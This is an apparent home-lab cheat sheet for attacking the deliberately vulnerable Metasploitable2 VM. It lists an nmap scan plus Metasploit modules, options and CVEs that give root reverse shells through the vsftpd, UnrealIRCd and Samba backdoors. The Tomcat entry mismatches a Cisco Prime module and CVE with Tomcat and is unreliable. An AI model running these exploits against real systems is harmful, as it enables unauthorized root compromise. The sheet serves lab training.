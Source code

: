 ## 🧠 Home Lab Cheat Sheet

### Target: Metasploitable2  
> IP: `192.168.138.130` (your lab — change if needed)

---

### How to Identify Services
```bash
nmap -sV 192.168.138.130
```
Look for open ports + service versions to match known exploits.

**nmap scan:**
![Shell Gained](../screenshots/nmap_scan.png)
---

### Common Metasploit Steps
```bash
use <exploit/module/path>
set RHOST <target IP>
set RPORT <target port>
set LHOST <Kali IP>
set PAYLOAD <payload>     # if needed
run
```

---

### PORT 21 – FTP
- **Service:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** None needed (built-in command shell)  
- **Notes:**
  - Opens a root shell backdoor on port 6200
  - Triggered by logging in with a `:)` in the username
- **Result:** `root`  
- **CVE:** [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)  

---

### PORT 6667 – IRC
- **Service:** UnrealIRCd 3.2.8.1  
- **Exploit Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`  
- **Payload:** `cmd/unix/reverse`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 6667
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)

---

### PORT 445 – Samba
- **Service:** Samba
- **Exploit Module:** `exploit/unix/samba/usermap_script`  
- **Payload:** `cmd/unix/reverse_netcat`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 445
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

---

### PORT 8180 – Apache Tomcat
- **Service:** Apache Tomcat
- **Exploit Module:** `exploit/unix/http/cisco_prime_inf_rce`  
- **Payload:** `linux/x64/meterpreter/reverse_tcp`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 8180
  set LHOST <Kali IP>
  ```
- **Result:** Exploit completed but no session created, requires **manual placement of JSP payload** in `/opt/CSCOlumos` 
- **CVE:** [CVE-2018-15379](https://nvd.nist.gov/vuln/detail/CVE-2018-15379)

---

### Tips
- Always `nmap` first to find the right service version.
- Use `search <service/version>` in Metasploit to find modules.
- If it says “no payload selected,” choose one based on OS.
- If you get "no session created," check:
  - LHOST is correct
  - Firewall is off
  - Port actually open

